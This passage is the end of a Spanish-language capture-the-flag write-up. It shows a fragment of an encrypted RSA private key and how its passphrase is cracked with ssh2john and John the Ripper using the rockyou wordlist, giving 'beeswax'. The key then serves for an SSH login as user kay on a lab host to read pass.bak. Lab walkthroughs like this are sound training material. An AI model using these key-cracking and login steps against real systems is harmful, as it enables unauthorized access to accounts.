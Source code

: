 ```bash
3Jt1/ZW3XCb76R75sG5h6Q4N8gu5c/M0cdq16H9MHwpdin9OZTqO2zNxFvpuXthY
-----END RSA PRIVATE KEY-----
```

Como está encriptada usaremos John the Ripper para desencriptarla:

> python3 /opt/john/ssh2john.py id_rsa.txt > decrypted.txt

Ahora podemos desencriptarla con john mediante.

> john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt

Nos da beeswax

A continuación nos conectaremos mediante ssh e id_rsa con la contraseña que nos acaba de reportar:

> ssh -i /home/kay/.ssh/id_rsa kay@10.10.88.218

Lo conseguimos! Somos kay, podemos abrir el archivo en el que se encuentra la contraseña: pass.bak

Muchas gracias por leer este writeup, espero que te haya gustado!
